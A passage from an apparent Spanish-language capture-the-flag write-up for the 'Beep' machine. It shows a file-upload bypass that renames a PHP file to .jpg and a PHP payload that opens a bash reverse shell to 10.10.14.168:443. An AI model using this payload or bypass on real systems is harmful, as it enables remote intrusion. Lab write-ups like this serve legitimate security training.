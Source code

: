 ![](../assets/images/Beep/settings.png)
y vamos al apartado communication templates, luego a Company Details, donde podemos abusar de la subida de archivos.
![](../assets/images/Beep/logo.png)

Solo acepta archivos jpg, entonces para ello vamos a crear un archivo php para luego intentar colarlo como jpg
```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.168/443 0>&1'");
?>
``` 
Con esto vamos a intentar llamar una bash 
`mv cmd.php cmd.php.jpg` cambiamos el nombre
	si le hacemos un `file cmd.php.jpg` vemos que lo reconoce como un script de php
```ruby
file cmd.php.jpg
cmd.php.jpg: PHP script, ASCII text

```